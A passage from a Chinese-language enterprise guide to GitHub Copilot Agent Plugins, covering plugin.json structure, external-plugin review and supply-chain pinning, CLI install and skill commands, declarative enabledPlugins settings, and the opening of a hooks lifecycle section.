| 替代方案 | — | 官方建議改用 **MCP Servers** |

日落時間軸（GitHub Changelog 原文佐證）：2025-09-24 停止建立新 Extension → 2025-11-03～07 brownout 測試 → 2025-11-10 23:59 PST 完全關閉。**重要例外**（Changelog 原文）："This does NOT affect: Client-side VS Code Copilot Extensions (remain fully supported)."——VS Code 端的 chat participant extension（`@mention`）不受影響，這是與「Copilot Extensions（GitHub App）」不同的另一個機制，命名容易混淆，撰寫企業文件時務必註明清楚。

### 11.3 `plugin.json` Schema 與目錄結構

#### 目錄結構

```text
enterprise-web-plugin/
├── plugin.json              # manifest，$schema 指向 Agent Plugins 1.0 schema（唯一必要檔案）
├── agents/                  # Custom Agents，安裝後會出現在使用者的 Agent 選單
├── skills/                  # Agent Skills（每個 Skill 一個資料夾，內含 SKILL.md）
├── hooks/                   # Hooks（*.json），安裝後併入 Agent 的生命週期事件
├── mcp.json                 # MCP Server 設定，安裝後自動註冊給 Agent 使用
└── README.md                # 說明文件，awesome-copilot 貢獻規範要求每個 Plugin 都要有
```

依 Agent Plugins 1.0 開放規範（`agent-plugins.org`），所有檔案路徑須以 `./` 開頭且保持在 Plugin 根目錄內，不可引用外部路徑。

#### 欄位分成兩區：頂層 metadata + `extensions` 內容組合

**（2026-08-28 複查更新，Source-confirmed）** 這是本手冊初版最容易寫錯的一段。awesome-copilot 現行所有 Plugin 的 `plugin.json` **並非**在頂層直接寫 `agents`／`skills`／`hooks`，而是採**宣告式的 `extensions` 命名空間**——把「這個 Plugin 帶了哪些內容」放進 `extensions.com.github.awesome-copilot` 底下：

| 區塊 | 欄位 | 說明 |
|---|---|---|
| **頂層 metadata** | `$schema` | 指向 `https://agent-plugins.org/schemas/1.0.0/plugin.schema.json` |
| | `name` | Plugin 識別名，須與資料夾同名 |
| | `description` | 用途描述 |
| | `version` | 語意化版本 |
| | `author` | **物件**（如 `{ "name": "..." }`），不是字串 |
| | `repository`／`license`／`keywords` | 來源、授權、檢索關鍵字 |
| **`extensions`** | `com.github.awesome-copilot.agents` | Agent 檔案路徑陣列（如 `"./agents/se-security-reviewer.md"`） |
| | `com.github.awesome-copilot.skills` | Skill **資料夾**路徑陣列（如 `"./skills/java-junit/"`，注意結尾斜線） |
| | `com.github.awesome-copilot.hooks` | Hook 設定檔路徑陣列 |
| | `com.github.copilot.logo` | Canvas Extensions 專用，值必須正好是 `"assets/preview.png"` |

> ⚠️ **三個實測得到、文件不易看出的細節**（2026-08-28 以 `plugins/java-development/plugin.json`、`plugins/software-engineering-team/plugin.json`、`plugins/devops-oncall/plugin.json` 三份真實檔案交叉核對）：
>
> 1. **Plugin 內的 Agent 檔名是 `*.md`，不是 `*.agent.md`**——因為路徑已明確寫在 `agents` 陣列中，不需靠副檔名被自動探索。獨立放在 `.github/agents/` 的 Agent 才需要 `.agent.md`。
> 2. **Skill 路徑指向資料夾且以 `/` 結尾**，與 Agent 指向單一檔案不同。
> 3. **`author` 是物件不是字串**，寫成 `"author": "Platform Team"` 會無法通過 `npm run plugin:validate`。

> ⚠️ **為什麼要用 `extensions` 命名空間？** 因為 Agent Plugins 1.0 是**跨廠商開放標準**，同一份 Plugin 可能被不同 Client（GitHub Copilot、其他 Agent 平台）讀取。把各家專屬的內容組合放進以反向網域命名的 namespace（`com.github.awesome-copilot`）底下，其他 Client 遇到不認得的 namespace 可以直接忽略，不會解析失敗。這與 `AndroidManifest.xml`、`Info.plist` 的自訂欄位設計思維一致。

#### MCP 在 Plugin 中的正確宣告方式（第四版全面改寫）

> **第三版此處只寫「官方文件不一致、請自行實測」。2026-08-31 複查發現：awesome-copilot 側已把規則**寫死到明文禁止的程度**，不再是「兩種寫法都行」。本小節改寫為明確規則。

**四項官方明文規定（Source-confirmed，依 awesome-copilot `AGENTS.md`）**：

| 規則 | 官方表述 |
|---|---|
| MCP **不是** composition field | 「MCP servers are **not** a composition field.」——不可像 `agents`／`skills`／`hooks` 那樣寫進 `extensions` 命名空間 |
| 位置固定在 Plugin 根目錄 `mcp.json` | 「they are declared in an `mcp.json` file at the plugin root, which is committed alongside `plugin.json` and shipped as-is.」 |
| 需帶 `$schema` | Code Review Checklist 要求「declared in `mcp.json` at the plugin root (with the `mcp.schema.json` `$schema`)」 |
| 禁用兩種舊寫法 | 「Do not add `mcpServers` to `plugin.json`」；「do not use the legacy `.mcp.json` filename.」 |

**重點釐清**：`mcp.json` 是「**跟在 `plugin.json` 旁邊、原樣出貨（shipped as-is）**」的獨立檔，而不是被 `plugin.json` 引用的資源。這也是為什麼它不出現在 `extensions` 區塊中——它不屬於 Plugin 的內容組合，而是依 **Agent Plugins spec** 直接定義的標準檔。

> ⚠️ **兩邊文件仍不一致（企業必須知道）**：`docs.github.com` 的 about-plugins 說明仍描述 `.mcp.json`（另有 `lsp.json` 用於 Language Server），而 awesome-copilot 側已明文禁用該檔名。**不一致仍存在，但兩邊的說法都變了。** 企業的實務建議（建議架構）：
>
> - 若 Plugin 要**投稿回 awesome-copilot** 或遵循 Agent Plugins spec，一律用根目錄 `mcp.json` 並帶 `$schema`
> - 若是**企業內部自用**且目標 Client 只有 Copilot，仍應先以一個最小 Plugin 實測（`copilot mcp list` 或 VS Code MCP 面板）確認註冊成功後再定案
> - **不要兩個檔名都放**——這會讓日後排查「到底哪份生效」變得極難

#### Plugin 實體化（Materialization）與 Namespace 剥除

> 本小節為第四版新增。這是「為什麼我寫的 `plugin.json` 跟安裝後看到的不一樣」背後的機制。

awesome-copilot 的來源分支並不等於發佈出去的 Marketplace 內容；中間隔著一道**實體化（materialization）**步驟（Source-confirmed）：

| 行為 | 官方表述 |
|---|---|
| 資源依類型落到不同目錄 | 「skills use the standard `skills/` directory and Copilot-specific content uses `com.github.copilot/`.」；CONTRIBUTING.md 進一步說明「Copilot-specific agents, hooks, and extensions are emitted under `com.github.copilot/`」 |
| 來源 namespace 會被剥除 | 「This namespace is stripped from the served manifest」（CONTRIBUTING.md：「This repository namespace is removed from the served manifest.」） |

**這對企業的三個實際含意（建議架構）**：

1. **不要把 `com.github.awesome-copilot` 當成執行期存在的東西**。它只是**來源庫的編輯期命名空間**，安裝到使用者機器上時已經不在了。若你寫內部文件時說「Plugin 的資源都在 `com.github.awesome-copilot` 下」，新人拿去實機找會找不到。
2. **自建企業 Plugin 時，namespace 要換成自己的**（例如 `com.acme.platform`），且要意識到「自建 Plugin 不會經過 awesome-copilot 的實體化流程」——你的 namespace **不會**被自動剥除。如果目標 Client 只認得標準位置，就必須自己建置實體化步驟（或直接以標準目錄結構發佈）。
3. **診斷問題時要看「實體化後」的內容**。直接 clone 來源分支比對檔案會得到錯誤結論；應該比對的是安裝後实際落地的目錄。

### 11.4 完整企業 Plugin 範例：Enterprise Web Development Plugin

**`plugin.json`**：

```json
{
  "$schema": "https://agent-plugins.org/schemas/1.0.0/plugin.schema.json",
  "name": "enterprise-web-plugin",
  "description": "Enterprise Web Application Development toolkit: agents, skills, and hooks for Java 25 + Spring Boot 4.x + Vue 3 projects.",
  "version": "1.0.0",
  "author": {
    "name": "Platform Engineering Team"
  },
  "repository": "https://github.com/acme-corp/enterprise-plugins",
  "license": "UNLICENSED",
  "keywords": ["java", "spring-boot", "vue", "enterprise", "web-development"],
  "extensions": {
    "com.github.awesome-copilot": {
      "agents": [
        "./agents/system-architect.md",
        "./agents/frontend-architect.md",
        "./agents/backend-architect.md",
        "./agents/security-agent.md",
        "./agents/code-review-agent.md"
      ],
      "skills": [
        "./skills/web-application-development/",
        "./skills/security-review/"
      ],
      "hooks": [
        "./hooks/pre-commit-quality-gate.json"
      ]
    }
  }
}
```

> ⚠️ 上述結構已對照 awesome-copilot 三份真實 `plugin.json` 逐欄核實（Source-confirmed，2026-08-28）。若企業自建 Plugin 供其他 Client 使用，`com.github.awesome-copilot` 這個 namespace 可能需替換為目標 Client 對應的命名空間；撰寫前務必重新核對當下最新版開放規範，因為規範仍在演進。

**開放規範 vs awesome-copilot 貢獻規則的差異**（容易混淆處）：Agent Plugins 1.0 開放規範本身**只強制要求 `$schema` 與 `name` 兩個欄位**，`description`／`version`／`author` 等皆為選填；但 **awesome-copilot 自己的 `CONTRIBUTING.md` 額外要求貢獻者必填 `name`／`description`／`version`**。這代表「符合開放規範」與「符合 awesome-copilot 收錄門檻」是兩件不同的事——企業若只是要在內部環境打包 Plugin 自用，可以只填規範要求的最低欄位；但若要投稿回 awesome-copilot，則需依其 `CONTRIBUTING.md` 補齊額外必要欄位。

### 11.5 External Plugins：`plugins/external.json` 與審查流程

除了直接收錄在 `plugins/<name>/` 目錄內的「內建 Plugin」之外，awesome-copilot 另有一條**外部 Plugin（External Plugins）**路徑：Plugin 的原始碼留在貢獻者自己的公開 GitHub Repository，awesome-copilot 只在 `plugins/external.json` 中登錄一筆指標，讓它能被 Marketplace 檢索到（Source-confirmed，2026-08-28 依 `CONTRIBUTING.md` 與 `eng/external-plugin-validation.mjs` 查證）。

#### 內建 Plugin 與 External Plugin 的差異

| 面向 | 內建 Plugin（`plugins/<name>/`） | External Plugin（`plugins/external.json`） |
|---|---|---|
| 原始碼位置 | awesome-copilot Repository 內 | 貢獻者自己的公開 GitHub Repository |
| 版本控制 | 隨 awesome-copilot 的 commit 一起版控 | 由指向的 ref／SHA 決定 |
| 內容變更 | 必須經 awesome-copilot 的 PR review | **可由外部維護者自行變更**，awesome-copilot 不再逐次審查 |
| 審查方式 | PR review + `npm run plugin:validate` | Issue 審查流程 + `eng/external-plugin-validation.mjs` + 每六個月自動 re-review |
| 企業風險等級 | 中（等同一般社群資源） | **高**（供應鏈指向外部，內容可在核准後被改動） |

> ⚠️ **這是企業最容易忽略的供應鏈破口**：External Plugin 一旦通過審查，其**內容仍由外部維護者掌控**。這代表「今天審查過的 Plugin」與「明天實際安裝到開發者機器上的 Plugin」不必然是同一份內容，風險模式與 npm 的 `latest` tag 完全相同。

#### 登錄格式（第四版修正：換上真實規格）

> **第三版此處使用的是自行推測的「示意」結構（`source.type`／`source.repository`），欄位名與官方不符。2026-08-31 複查已以 `plugins/external.json` 真實內容取代。

awesome-copilot 明文採用 **Claude Code plugin marketplace spec**：「Approved submissions are converted into `plugins/external.json` entries following the Claude Code plugin marketplace spec」（Source-confirmed）。真實條目如下：

```json
{
  "name": "agent-council",
  "description": "A runtime-portable 5-agent quality gate...",
  "version": "0.1.3",
  "author": {
    "name": "Parth Sangani",
    "url": "https://github.com/Avyayalaya"
  },
  "repository": "https://github.com/Avyayalaya/agent-council",
  "license": "MIT",
  "source": {
    "source": "github",
    "repo": "Avyayalaya/agent-council",
    "ref": "v0.1.3"
  }
}
```

**`source` 物件的欄位**：

| 欄位 | 說明 | 企業供應鏈意義 |
|---|---|---|
| `source` | 來源類型，目前為 `"github"`（注意是 `source.source`，不是 `source.type`） | — |
| `repo` | `owner/repo` 格式 | 定位來源，但**不鎖定內容** |
| `path` | （選填）Plugin 在該 repo 中的子目錄 | monorepo 投稿時使用 |
| `ref` | （選填）branch、tag 或 release（例 `"v0.1.3"`） | **tag 可被重新指向**，不是不變性保證 |
| `sha` | （選填）commit SHA | **唯一真正不變的鎖定方式** |

> ⚠️ **企業最重要的一條結論（建議架構）**：如果企業要引用任何 External Plugin，**請在內部鑑別時以 `sha` 而非 `ref` 作為決策依據**。上述範例只有 `ref: "v0.1.3"`——這代表若上游維護者把 `v0.1.3` 這個 tag 強制重指向另一個 commit，**你審查過的內容就不是你安裝到的內容**。這與 npm 的 tag 指向風險完全相同。

#### 審查生命週期：九個標籤與七個 Slash 指令（第四版新增，Source-confirmed）

External Plugin 不走 PR，而是以 **GitHub Issue 搭配標籤**驅動整個審查生命週期：

| 標籤 | 意義 |
|---|---|
| `external-plugin` | 每一件公開外部 Plugin 投稿都會被標上（整個流程的識別標籤） |
| `awaiting-review` | 初始檢查狀態 |
| `ready-for-review` | 已通過自動檢查，等待維護者人工審查 |
| `requires-submitter-fixes` | 自動檢查發現問題，退回給投稿者 |
| `approved` | 已核准並關閉 |
| `rejected` | 已拒絕並關閉 |
| `re-review-due` | 已核准的 Issue 達到**六個月**門檻，需重新審查 |
| `re-review-follow-up` | 維護者要求進一步跟進 |
| `removed` | 重新審查後從 `external.json` 移除 |

維護者以 Issue 留言的 **slash 指令**推進狀態：

| 指令 | 作用 |
|---|---|
| `/rerun-intake` | 重新執行自動檢查 |
| `/mark-ready-for-review` | **明確覆寫品質閘的攜截** |
| `/approve` | 核准投稿 |
| `/reject` | 拒絕投稿 |
| `/re-review-keep` | 更新許可，再延長六個月 |
| `/re-review-needs-changes` | 保留在佇列中並加上跟進標籤 |
| `/re-review-remove` | 從 `external.json` 移除 |

**自動品質閘（Source-confirmed）**：Metadata 驗證通過後會執行兩道閘——「`vally lint` against the submitted plugin path/ref/sha」與「install smoke test via Copilot CLI against an ephemeral marketplace entry」。此外，「The repository's canonical validation rules live in `eng/external-plugin-validation.mjs`.」

**六個月重審的錪點（Source-confirmed）**：「A nightly workflow looks for closed issues labeled `external-plugin` and `approved` whose `closed_at` is at least six months old, applies `re-review-due`」——注意錪點是 **Issue 的 `closed_at`**，而不是 Plugin 本身的最後更新時間。

> ⚠️ **這個錪點選擇有一個企業必須知道的盲點（建議架構）**：重審是依**時間**觸發，而非依**上游內容變更**觸發。換句話說，一個 Plugin 可以在核准後的第一天就把內容改掉，而 awesome-copilot 要到**六個月後**才會重新看它一眼。因此，企業**不能把 awesome-copilot 的審查當作自己的保證**；若要導入 External Plugin，請依下方「企業導入建議」自行鎖定 `sha` 並建立監控。

#### 收錄門檻（Source-confirmed）

1. **必須是公開的 GitHub Repository**——私有 Repository 或非 GitHub 託管一律不受理。
2. **必須走 Issue 審查流程**，而不是直接送 PR 修改 `plugins/external.json`。
3. **核准後每六個月自動 re-review**——這是 awesome-copilot 對「外部內容可能事後變質」的制度性緩解措施。
4. 一併適用第 2.5 節列出的 "What We Don't Accept" 拒收清單。

#### 企業導入建議

> ⚠️ 此小節為建議架構，並非 awesome-copilot 官方規定。

| 建議 | 理由 |
|---|---|
| **一律以 commit SHA（而非分支名或 tag）鎖定版本** | tag 可被外部維護者刪除後重新指向不同 commit，只有 SHA 是不可變的 |
| 建立企業自己的 External Plugin 允許清單（Allowlist） | 避免開發者從 Marketplace 自由安裝任意外部 Plugin |
| 對高風險 External Plugin 改採 Vendoring 策略 | 將內容 fork 到企業自有 Repository 後再打包分發，把供應鏈收斂回企業可控範圍 |
| 把「六個月 re-review」同步納入企業自己的週期性審查（第 28 章） | 不可假設 awesome-copilot 的 re-review 等同於企業自己的安全審查 |

### Scenario

某企業原本打算沿用舊版「Copilot Extensions」教學文件幫團隊建立客製化能力，才發現該機制已於 2025-11-10 日落，現有文件全部失效。改用 Agent Plugins 1.0 重新設計後，不僅恢復功能，還額外獲得「一次打包 Agent+Skill+Hook+MCP」的能力，這是舊版 Extensions 機制原本不具備的。

### AI Prompt 範例

```text
角色：你是 Platform Engineering 團隊的 Tech Lead。

任務：請幫我們草擬一份 plugin.json，把以下資源打包成一個
「enterprise-web-plugin」：
- agents/system-architect.agent.md、agents/backend-architect.agent.md
- skills/web-application-development、skills/security-review
- hooks/pre-commit-quality-gate.json
- mcp.json（含企業內部 Jira MCP Server 設定）

限制：
- $schema 須指向 Agent Plugins 1.0 官方 Schema
  （https://agent-plugins.org/schemas/1.0.0/plugin.schema.json）
- version 從 1.0.0 開始，遵循語意化版本
- 請同時列出：若只要符合開放規範最低需求 vs
  若要投稿回 awesome-copilot，欄位需求的差異
```

### 本章 Checklist

- [ ] 團隊已確認未使用已日落的 Copilot Extensions（GitHub App）機制
- [ ] 已用 11.2 對照表跟同事說明 Plugins 與 Extensions 的差異
- [ ] 已確認企業 Plugin 的內容組合寫在 `extensions.com.github.awesome-copilot` 而非頂層欄位（11.3）
- [ ] 已確認 `author` 寫成**物件**、Agent 路徑為 `./agents/*.md`、Skill 路徑為資料夾且以 `/` 結尾（11.3）
- [ ] 已確認 MCP 宣告於 Plugin 根目錄 `mcp.json` 並帶 `mcp.schema.json` 的 `$schema`，且**未**使用 `plugin.json` 的 `mcpServers` 或 legacy `.mcp.json`（11.3）
- [ ] 已知悉 `com.github.awesome-copilot` namespace 於 served manifest 會被剝除，診斷時比對的是**實體化後**的目錄（11.3）
- [ ] 已確認**未將 `*.instructions.md` 錯誤地打包進 Plugin**
- [ ] Plugin 打包的資源清單已對應到第 8-9 章已驗證的 Skill／Agent 範例
- [ ] 若使用 External Plugin，已以 `source.sha`（而非 `source.ref`）鎖定版本並納入企業允許清單（11.5）
- [ ] 已知悉 External Plugin 的六個月重審是依 Issue `closed_at` 觸發、**不是**依上游內容變更觸發，並已自建監控（11.5）

---

## 12. Plugin 安裝與管理

### 12.1 Marketplace Discovery

**（2026-08-27 查證更新）** Copilot CLI 現在**預設已內建註冊兩個 Marketplace**：`copilot-plugins`（官方）與 `awesome-copilot`，因此在當前版本的 CLI 上通常**不需要**手動註冊即可直接瀏覽與安裝 awesome-copilot 收錄的 Plugin（本節標題原本強調的手動註冊步驟，僅適用於較舊版本的 CLI，或企業想額外註冊自建 Marketplace 的情境）：

```bash
# 查看目前已註冊的 Marketplace（預設應已包含 copilot-plugins 與 awesome-copilot）
copilot plugin marketplace list

# 瀏覽指定 Marketplace 內的 Plugin
copilot plugin marketplace browse awesome-copilot

# 若使用較舊版 CLI 或該 Marketplace 尚未預先註冊，手動加入
copilot plugin marketplace add github/awesome-copilot
```

安裝格式為 `PLUGIN-NAME@MARKETPLACE-NAME`：

```bash
copilot plugin install database-data-management@awesome-copilot
```

（以上指令依 `docs.github.com/en/copilot/how-tos/copilot-cli/customize-copilot/plugins-finding-installing` 與 Copilot CLI plugin reference 頁逐字核對，官方已實作）

### 12.2 Plugin 安裝、更新、移除、啟用／停用（企業自建 Plugin）

```bash
# 註冊企業自建 Marketplace（來源可為 GitHub repo、本機路徑，或非 GitHub 的 git URL）
copilot plugin marketplace add <org>/enterprise-plugins

# 安裝
copilot plugin install enterprise-web-plugin@enterprise-plugins

# 更新單一 Plugin／更新全部已安裝 Plugin
copilot plugin update enterprise-web-plugin
copilot plugin update --all

# 暫時停用／重新啟用（不需要解除安裝，適合暫時排除疑難時使用）
copilot plugin disable enterprise-web-plugin
copilot plugin enable enterprise-web-plugin

# 移除
copilot plugin uninstall enterprise-web-plugin
```

以上全部子指令（含容易被忽略的 `disable`／`enable`）均為 Copilot CLI plugin reference 官方文件逐字核對後的真實指令（Source-confirmed，2026-08-27 查證），取代先前版本「依 CLI 慣例推論」的示意寫法。任何子指令的完整參數仍可用 `copilot plugin [SUBCOMMAND] --help` 查詢。

### 12.3 Version Management 與 Dependency Management

- `plugin.json` 的 `version` 欄位遵循語意化版本（建議架構，官方未強制規定版本策略）。
- Plugin 內部若依賴特定版本的 MCP Server 或外部工具，建議在 `README.md` 中明確標注相依版本範圍，避免安裝環境不一致。

### 12.4 VS Code 使用方式

VS Code 透過 **Agent Customizations 編輯器**（目前仍是 **Preview** 狀態）統一管理 Agent、Skill、Plugin 等客製化資源，可在其中瀏覽已註冊 Marketplace 的 Plugin、檢視已安裝清單並執行安裝／移除操作。由於此編輯器仍在 Preview 階段，實際選單路徑與畫面配置可能隨版本調整，企業內部文件建議只描述「透過 Agent Customizations 編輯器管理」這個穩定概念，具體操作截圖以當下版本 VS Code 內建說明為準，避免文件因 UI 變動而迅速過時。

### 12.5 Copilot CLI 使用方式

#### 12.5.1 Plugin 相關指令

```bash
# 查看已安裝的 Plugin
copilot plugin list

# 查看目前註冊的 Marketplace 來源
copilot plugin marketplace list

# 瀏覽某個 Marketplace 內可安裝的 Plugin
copilot plugin marketplace browse awesome-copilot

# 取消註冊某個 Marketplace 來源
copilot plugin marketplace remove <marketplace-name>
```

以上指令均已對照 Copilot CLI 官方 plugin reference 文件核實（Source-confirmed）。

#### 12.5.2 Skill 相關指令（第四版新增，官方已實作）

Skill 的管理分為兩個層面：**互動式工作階段內**用 `/skills` slash command，**終端機命令列**則用 `copilot skill` 子指令（後者特別適合寫進自動化腳本與開發環境初始化流程）：

| 情境 | 互動式（session 內） | 命令列（session 外） | 說明 |
|---|---|---|---|
| 列出目前可用 Skill | `/skills list` | `copilot skill list` | 也可直接問「What skills do you have?」 |
| 查看單一 Skill 詳情 | `/skills info <SKILL-NAME>` | — | **含它的實際位置**；也用來查它來自哪個 Plugin |
| 新增 Skill 存放位置／來源 | `/skills add` | `copilot skill add <FILE \| URL \| DIRECTORY>` | 可以指定檔案、URL 或目錄 |
| 移除 Skill | `/skills remove <SKILL-DIRECTORY>` | — | **僅適用於直接新增的 Skill**；來自 Plugin 的 Skill 必須回頭管理那個 Plugin |
| 啟用／停用個別 Skill | `/skills` 後以上下鍵移動、空白鍵切換 | — | 互動式勾選介面 |
| 重新載入 Skill | `/skills reload` | — | 在 session 中途新增 Skill 後使用，**免於重啟 CLI** |

在 Prompt 中以斜線加 Skill 名稱即可**指定**使用某個 Skill，例如：

```text
Use the /frontend-design skill to create a responsive navigation bar in React.
```

> ⚠️ **企業 Onboarding 實務建議（建議架構）**：把 `copilot skill list` 與 `copilot plugin list` 一起寫進開發環境**健康檢查腳本**，讓新人在第一天就能自行確認「我的環境與團隊標準一致」。遇到「Skill 沒載入」的疑難雜症時，`/skills info <NAME>` 是**最快的診斷入口**——它直接告訴你這個 Skill 實際被從哪一個路徑或哪個 Plugin 載入，可以立刻排除「同名 Skill 互相覆蓋」這類問題（對應第 8.3 節的五個探索路徑）。

### 12.6 宣告式安裝：`enabledPlugins`

前述 `copilot plugin install` 屬於**命令式（imperative）**安裝——由每位開發者在自己的機器上逐一執行。GitHub 另提供**宣告式（declarative）**安裝機制：在設定檔中以 `enabledPlugins` 欄位列出要啟用的 Plugin，由 Copilot 在啟動時自動取得並啟用（官方已實作）。

#### 設定檔位置與生效範圍

| 設定檔 | 生效範圍 | 適用情境 |
|---|---|---|
| `~/.copilot/settings.json` | 個人層級，跨所有 Repository | 開發者個人偏好的輔助型 Plugin |
| `.github/copilot/settings.json` | Repository 層級，所有協作者 | **企業標準做法**：把團隊必備 Plugin 寫進版控 |

**Copilot CLI 讀取的完整 settings 檔案清單（第四版新增，官方已實作）**：除上表兩個位置外，官方 Hooks Reference 另明確列出兩個常被忽略的檔案，企業盤點設定來源時務必一併納入：

| 檔案 | 說明 |
|---|---|
| `.github/copilot/settings.local.json` | Repository 內的**個人覆寫檔**，慣例上會加入 `.gitignore`，不進版控 |
| `.claude/settings.json`、`.claude/settings.local.json` | **跨工具相容**。Copilot CLI 會一併讀取 Repository 內的 Claude 設定檔 |

> ⚠️ **治理盲點提醒（建議架構）**：`settings.local.json` 因為不進版控，**不會被 `CODEOWNERS` 與 PR Review 攔到**。如果企業把「Plugin 清單需經核准」寫進政策，就必須同時意識到開發者可以在 local 檔中自行追加。真正不可繞過的邊界只有第 20.5 節的 `managed-settings.json`；Repository 層設定的定位應該是「團隊預設值」而非「強制政策」。同理，`.claude/settings.json` 的存在也代表**從 Claude Code 專案 clone 過來的設定會被 Copilot CLI 直接套用**，稽核範圍請一併涵蓋。

#### 設定範例

```json
{
  "enabledPlugins": [
    "enterprise-web-plugin@enterprise-plugins",
    "security-review@awesome-copilot"
  ]
}
```

格式為 `<plugin-name>@<marketplace-name>`，與 `copilot plugin install` 的參數格式一致。

#### 搭配 `extraKnownMarketplaces` 宣告自建 Marketplace

`enabledPlugins` 中的 `@<marketplace-name>` 必須是**已知（known）的 Marketplace**。Copilot CLI 預設已內建 `copilot-plugins` 與 `awesome-copilot` 兩個 Known Marketplace，因此引用社群 Plugin 時**不需要**額外執行 `copilot plugin marketplace add`。但企業自建的私有 Marketplace 並不在預設清單中，必須先以 `extraKnownMarketplaces` 宣告，`enabledPlugins` 才能解析得到：

```json
{
  "extraKnownMarketplaces": {
    "enterprise-plugins": {
      "type": "github",
      "repository": "acme-corp/enterprise-plugins"
    }
  },
  "enabledPlugins": [
    "enterprise-web-plugin@enterprise-plugins",
    "security-review@awesome-copilot"
  ]
}
```

| 欄位 | 作用 | 企業意義 |
|---|---|---|
| `extraKnownMarketplaces` | 宣告「**允許從哪裡取得** Plugin」 | 相當於 Plugin 的**來源白名單**，可搭配第 20.5 節的 `managed-settings.json` 由企業層級統一鎖定 |
| `enabledPlugins` | 宣告「**實際啟用哪些** Plugin」 | 團隊必備能力清單，進版控、走 PR 審查 |

> ⚠️ 兩者是**來源**與**內容**的分工關係：只寫 `enabledPlugins` 而未宣告來源，私有 Plugin 會解析失敗；只宣告 `extraKnownMarketplaces` 而未列入 `enabledPlugins`，則 Plugin 不會被啟用。企業自建 Marketplace 時兩者都必須設定。

> ⚠️ **第四版重要提釒：企業層與個人／Repository 層的 Schema 不同，不可直接複製貼上**。本節展示的是個人／Repository 層 `settings.json` 的寫法（`enabledPlugins` 為**字串陣列**；`extraKnownMarketplaces` 項目使用 `type` 與 `repository`）。但經 2026-08-31 逐字複查，`docs.github.com` 的 **Enterprise managed settings** 參考頁面對 `managed-settings.json` 定義的是**另一套 Schema**：
>
> - `enabledPlugins` 是**物件**，以 `PLUGIN-NAME@MARKETPLACE-NAME` 為 key、布林值為值（`true` 強制啟用，`false` 強制停用）
> - `extraKnownMarketplaces` 的每筆為具名物件，內含 `source` 子物件（`{"source": "github", "repo": "OWNER/REPO"}`）與選用的 `autoUpdate`
>
> 因此本節範例**不可**直接搬到 `managed-settings.json`，反之亦然。兩套 Schema 的差異官方未就其原因作出說明（官方目前沒有找到足夠資料確認此差異是有意設計還是文件尚未同步）。**企業實作前請先在單一台機器上實際驗證兩層各自生效**，並以第 20.5 節的官方格式為企業層標準。

#### 為什麼企業應優先採用宣告式安裝

| 面向 | 命令式（`copilot plugin install`） | 宣告式（`enabledPlugins`） |
|---|---|---|
| 一致性 | 各人手動安裝，版本與清單容易漂移 | 全 Repository 協作者取得同一份清單 |
| 可稽核性 | 安裝行為散落在個別機器上，難以盤點 | **設定進版控**，變更留有 PR 紀錄與 Code Review |
| 新人 Onboarding | 需照 SOP 逐條手動執行，容易漏步驟 | 開啟專案即自動生效，零手動步驟 |
| Copilot cloud agent | **不支援** | **唯一支援方式** |

> ⚠️ **關鍵限制（極易踩坑）**：**Copilot cloud agent 只支援宣告式的 `enabledPlugins`**，不會執行任何 `copilot plugin install` 指令。若團隊的 Plugin 僅以命令式安裝在本機，cloud agent 情境下會完全取不到這些能力，症狀是「在 VS Code 好好的，交給 cloud agent 就少了某個 Agent／Skill」。
>
> ⚠️ 另需注意第 6.6 節提過的 default branch 限制：cloud agent 讀取的是 **default branch 上的 `.github/copilot/settings.json`**，在 feature branch 上新增的 `enabledPlugins` 不會生效，必須先合併回 default branch。

#### 企業落地建議

> ⚠️ 此小節為建議架構，並非 GitHub 官方規定的部署模式。

1. 在企業 Repository 範本（第 23 章標準目錄）中預先放入 `.github/copilot/settings.json`，把必備 Plugin 列為預設。
2. 對 `.github/copilot/` 目錄設定 `CODEOWNERS`，讓 Plugin 清單的變更必須經平台團隊核准。
3. 個人層級的 `~/.copilot/settings.json` 僅允許加入**唯讀、無 Shell 執行能力**的輔助型 Plugin，其餘一律走 Repository 層級。

### Scenario

某企業誤以為 Plugin 安裝後會自動更新，結果團隊成員實際使用的 Plugin 版本各不相同，導致「同一個 Agent 在不同人電腦上行為不一致」的困惑。**修正**：在企業 Onboarding 文件中明確要求定期執行 `copilot plugin update --all`，並將版本檢查納入第 26 章 Tutorial 1「安裝與第一次使用」的標準步驟。

### AI Prompt 範例

```text
角色：你是負責撰寫 Onboarding 文件的 Platform Engineer。

任務：請幫我寫一份「新人第一次安裝企業 Plugin」的操作步驟文件，
需依序涵蓋：
1. 確認 copilot-plugins／awesome-copilot 是否已預設註冊
2. 註冊企業自建 Marketplace（<org>/enterprise-plugins）
3. 安裝 enterprise-web-plugin
4. 說明如何之後定期更新（copilot plugin update --all）
5. 說明若懷疑某個 Plugin 造成問題，如何先用 disable 暫時停用
   而非直接解除安裝

限制：只使用第 12 章列出的、已對照官方文件核實的真實指令，
不要自行發明未經驗證的參數。
```

### 本章 Checklist

- [ ] 已成功註冊 awesome-copilot 為 Marketplace 來源並安裝過至少一個 Plugin
- [ ] 已建立企業自建 Plugin 的更新/移除流程文件
- [ ] 已在 Onboarding 文件中提醒「Plugin 不會自動更新」
- [ ] 團隊必備 Plugin 已改以 `.github/copilot/settings.json` 的 `enabledPlugins` 宣告式管理（12.6）
- [ ] 已確認 Copilot cloud agent 情境所需的 `enabledPlugins` 設定位於 **default branch**（12.6）

---

## 13. Hooks 深入教學

### 13.1 定義與 Lifecycle

GitHub Copilot Hooks 官方定義（原文）："Hooks allow you to extend and customize the behavior of GitHub Copilot agents by executing custom shell commands at key points during agent execution."——這是**確定性（Deterministic）自動化**，不依賴 AI 判斷，只依賴事件是否發生（官方已實作）。

### 13.2 十四個生命週期事件（第四版全面改寫）

> ⚠️ **本節為第四版重大修正。** 本手冊第一至第三版依當時官方文件僅列出六個事件；`docs.github.com/en/copilot/reference/hooks-reference` 現已擴充為 **14 個事件**，並明確區分 **Copilot CLI** 與 **Copilot cloud agent** 兩個 Surface 的差異。企業若沿用舊版的六事件模型設計治理機制，會**漏掉 Subagent、Compaction、權限請求三條最關鍵的稽核路徑**。

#### 13.2.1 事件總表（官方已實作，2026-08-31 查證）

下表依英文字母排序，與官方 Reference 一致。「可影響流程」欄說明該事件的輸出是否會被 Copilot 讀回並改變後續行為——**這一欄才是設計治理 Hook 的關鍵**，只有標示「是」的事件才能用來「攔阻」。

| 事件 | 觸發時機 | 可影響流程 | Cloud agent |
|---|---|---|---|
| `sessionStart` | 新工作階段開始或既有工作階段被 resume | 可選——可注入 `additionalContext` | 每個 job 觸發一次（視為新 session，非 resume） |
